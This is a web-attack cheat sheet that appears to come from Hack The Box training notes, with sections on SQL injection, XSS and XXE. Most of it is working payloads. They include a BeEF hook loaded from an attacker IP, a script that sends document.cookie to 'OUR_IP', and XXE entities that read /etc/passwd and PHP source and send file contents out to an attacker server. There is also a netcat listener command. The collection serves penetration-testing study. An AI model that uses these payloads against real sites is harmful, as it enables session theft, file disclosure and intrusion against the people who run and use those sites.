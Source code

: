 ### SQL injection

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

https://cobalt.io/blog/a-pentesters-guide-to-sql-injection-sqli
```

### XSS

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

beef-xss
cat /usr/share/beef-xss/config.yaml | grep user -C 1 # user / password
<script src="http://<IP>:3000/hook.js"></script>

url=%26%2302java%26%23115cript:alert(document.domain)

```

| Code                                                      | Description                                       |
|-----------------------------------------------------------|---------------------------------------------------|
| `<script>alert(window.origin)</script>`                   | Basic XSS Payload                                 |
| `<plaintext>`                                              | Basic XSS Payload                                 |
| `<script>print()</script>`                                 | Basic XSS Payload                                 |
| `<img src="" onerror=alert(window.origin)>`                | HTML-based XSS Payload                            |
| `<script>document.body.style.background = "#141d2b"</script>` | Change Background Color                        |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Back4ground Image    |
| `<script>document.title = 'HackTheBox Academy'</script>`   | Change Website Title                              |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>` | Overwrite website's main body           |
| `<script>document.getElementById('urlform').remove();</script>` | Remove certain HTML element           |
| `<script src="http://OUR_IP/script.js"></script>`           | Load remote script                                |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>` | Send Cookie details to us              |
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"` | Run xsstrike on a url parameter   |
| `sudo nc -lvnp 80`                                        | Start netcat listener                             |
| `sudo php -S 0.0.0.0:80`                                  | Start PHP server                                  |


### XXE

| Code                                                                      | Description                                      |
|---------------------------------------------------------------------------|--------------------------------------------------|
| `<!ENTITY xxe SYSTEM "http://localhost/email.dtd">`                       | Define External Entity to a URL                  |
| `<!ENTITY xxe SYSTEM "file:///etc/passwd">`                               | Define External Entity to a file path            |
| `<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">` | Read PHP source code with base64 encode filter  |
| `<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">` | Reading a file through a PHP error              |
| `<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">` | Reading a file OOB exfiltr                      |
